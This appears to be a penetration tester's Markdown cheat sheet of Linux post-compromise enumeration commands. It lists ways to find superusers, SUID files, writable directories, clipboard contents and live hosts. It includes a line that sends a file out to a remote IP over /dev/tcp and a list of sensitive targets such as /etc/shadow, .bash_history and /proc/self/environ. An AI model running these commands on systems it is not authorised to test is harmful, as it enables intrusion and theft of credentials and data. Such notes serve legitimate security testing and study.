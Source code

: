 # Commands
## User Information
```bash
# User info
id || (whoami && groups) 2>/dev/null
# Current PGP keys
gpg --list-keys 2>/dev/null
# List superusers
awk -F: '($3 == "0") {print}' /etc/passwd
# Logged in users
w
```


## System Information
```bash
# Running processes
ps aux

# Environment variables
(env || set) 2>/dev/null

# Network topology
cat /proc/net/fib_trie

# Domain name
hostname

# OS info
/etc/os-release
```

## Interesting Files and DIRs
```bash
# Sort files by date
ls -ltrh

# Writeable folders
find / -writable -type d 2>/dev/null

# Find SUID files
find / -perm -4000 2>/dev/null
```

## Network
```bash
# Open ports
(netstat -punta || ss --ntpu)
netstat -tulnp
ifconfig
```

## Misc
```bash
# Human readable JSON data (jq)
cat <json_file> | jq

# Download file from shell session
cat <file> /dev/tcp/<ip>/<port>

# PING SWEEP - If one suspects that there are other machines on the network --- Assuming that current machine is in a VM or a container
for i in {1..254}; do (ping -c 1 10.10.10.${i} | grep "bytes from" | grep -v "Unreachable" &); done;
```

# Clipboard
Look for anything interesting in the clipboard

```bash

if [ `which xclip 2>/dev/null` ]; then
		echo "Highlighted text: "`xclip -o 2>/dev/null`

	elif [ `which xsel 2>/dev/null` ]; then
		echo "Clipboard: "`xsel -ob 2>/dev/null`
		echo "Highlighted text: "`xsel -o 2>/dev/null`
	
	else echo "Not found xsel and xclip"
fi
```

# Directories

##  Place For Unusual Files
```bash
/tmp
/dev/shm
```

sd
## Installed Software
```bash
/opt
```
## Changing Files
```bash
/var
/var/log
/var/www/html
```

## Web Related
```bash
/etc/apache2
/etc/httpd
/etc/nginx
```
## System and User Related
```bash
/etc/hosts
/etc/issue
/etc/motd
/etc/passwd
/etc/group
/etc/resolv.conf
/etc/shadow
```
## Own User Interesting Files
```bash
/home/USERNAME/.bash_history
/home/USERNAME/.profile
```
## System Information
```bash
/proc/sched_debug
/proc/net/fib_trie
/proc/version
/proc/self/environ
/proc/self/cmdline
```
